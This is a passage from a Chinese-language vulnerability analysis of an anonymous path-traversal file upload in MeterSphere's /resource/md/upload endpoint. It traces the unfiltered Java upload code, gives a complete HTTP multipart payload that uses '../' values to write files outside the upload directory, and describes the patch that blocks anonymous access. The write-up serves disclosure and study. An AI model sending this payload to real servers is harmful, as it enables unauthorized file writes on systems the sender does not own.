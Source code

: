 ```java
        FileUtil.copyStream(in, out);
    } catch (IOException e) {
        LogUtil.error(e.getMessage(), e);
        MSException.throwException(Translator.get("upload_fail"));
    }
    return filePath;
}
```

同样没有做任何过滤。接着向前回溯，看哪里调用了`mdUpload`函数，同样很快就可以找到io.metersphere.controller.ResourceController中的调用

```java
@Resource
ResourceService resourceService;
@PostMapping(value = "/md/upload", consumes = {"multipart/form-data"})
public void upload(@RequestPart(value = "request") MdUploadRequest request, @RequestPart(value = "file", required = false) MultipartFile file) {
    resourceService.mdUpload(request, file);
}

```

同样是未做任何过滤，直接就进行了函数调用。并且该函数属于`/resource`路由，该路由属于可以匿名访问的路由。

因此可以使用如下格式的payload上传文件：

```java
POST /resource/md/upload HTTP/1.1
Host: host.com
Content-Type: multipart/form-data;boundary=xxx

--xxx
Content-Disposition: form-data;name="file"; fileName="test"
Content-Type: image/jpeg

123
--xxx
Content-Disposition: form-data;name="request"; fileName="xxx"
Content-Type: application/json

{"id":"../","fileName":"../../tmp/test"}
--xxx--

```

#### 修复补丁

漏洞的issue中提的补丁，修改了允许匿名访问的路由限制，匿名用户无法再使用该功能。

![](img/metersphere/image_V24pfckWqC.png)
